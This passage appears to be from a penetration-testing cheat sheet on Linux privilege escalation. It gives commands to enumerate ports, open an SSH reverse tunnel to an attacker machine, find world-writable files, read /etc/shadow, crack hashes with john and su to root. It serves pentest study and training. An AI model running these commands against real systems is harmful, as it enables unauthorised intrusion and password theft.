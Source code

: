 **Enumerate local ports**

```sh
netstat -ano
```

```sh
ss -anp
```

If the ports only allow internal access, use port forwarding techniques. Port forwarding from victim machine (SSH server listen on attacker):

```sh
ssh -f -N -R 3306:127.0.0.1:3306 kali@192.168.49.10
```

Port forwarding from attacker machine (SSH server listen on victim):

```sh
ssh -f -N -L 3306:127.0.0.1:3306 user@192.168.10.10
```

### Weak File Permissions

List world writable files on the system.

{% code overflow="wrap" %}
```sh
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```
{% endcode %}

#### /etc/shadow

!!! info The /etc/shadow file contains user password hashes

Get /etc/shadow permissions

```sh
ls -l /etc/shadow
```

**Readable /etc/shadow**

```sh
cat /etc/shadow
```

Save the root user (or someone you want to privilege escalate to) to a file and use `john` to crack it

```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Finally, switch user with cracked password

```sh
su root
```
